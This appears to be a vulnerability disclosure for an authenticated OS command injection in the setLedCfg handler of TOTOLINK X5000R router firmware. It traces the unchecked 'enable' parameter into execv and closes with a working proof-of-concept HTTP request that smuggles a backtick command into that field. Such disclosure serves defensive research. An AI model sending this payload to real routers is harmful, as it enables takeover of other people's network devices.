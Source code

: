 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setLedCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setLedCfg` (at 0x41B9E4), binary /cgi-bin/cstecgi.cgi. The parameter `enable` is passed to 'Uci_set_str' without any check.
![setLedCfg](image.png)
Uci_Set_Str passes the parameter `enable` as the fourth argument, which is in libcscommon.so. It can be observed that Uci_Set_Str calls snprintf to format our param_4 into the string uci -c %s set .... and passes the string to the CsteSystem function,which will eventually be called by execv.
![uci_set_str](image-1.png)
![uci_set_str2](image-2.png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 46
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "setLedCfg", "enable": "`ls -l`"}
```